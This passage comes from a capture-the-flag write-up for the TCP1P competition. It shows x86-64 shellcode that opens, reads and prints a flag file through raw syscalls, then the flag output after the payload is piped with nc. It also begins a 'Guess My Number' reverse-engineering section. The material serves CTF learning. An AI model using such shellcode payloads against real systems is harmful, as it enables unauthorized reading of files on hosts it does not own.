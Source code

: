 ```s
mov DWORD PTR [rsp+0x34], 0x35366238
mov DWORD PTR [rsp+0x38], 0x65316430
mov DWORD PTR [rsp+0x3c], 0x66623334
mov DWORD PTR [rsp+0x40], 0x37363463
mov DWORD PTR [rsp+0x44], 0x39666331
mov DWORD PTR [rsp+0x48], 0x65363538
mov DWORD PTR [rsp+0x4c], 0x2e303965
mov DWORD PTR [rsp+0x50], 0x747874

# open(filename, flags, mode)
xor edx, edx
xor esi, esi
mov rdi, rsp
mov rax, 2
syscall

# read(fd, buffer, count)
mov rdx, 0x100
mov rsi, rsp
mov rdi, rax
xor eax, eax
syscall

# write(stdout, buffer, count)
mov rdx, rax
mov rsi, rsp
mov rdi, 1
mov rax, 1
syscall

# you could also exit here, but ¯\_(ツ)_/¯
```

Again, running `cat payload_readflag | nc ...` prints
```
Anything you want to tell me? 
TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}/home/ctf/run_challenge.sh: line 2:  4875 Segmentation fault      ./chall
```

# Guess My Number

We are given an IP with a port (`nc ctf.tcp1p.com 7331`) and a zip with a 64-bit ELF executable file named `guess`.

The challenge asks us to guess a number and promises that if our guess is correct, it will reveal the flag. We could, of course, take a guess, but we don't know anything about the size of the number or if the challenge is even honest with us. To understand how the program processes the input and decides whether the guess is correct, we need to analyze (or reverse-engineer) it.

## Solution
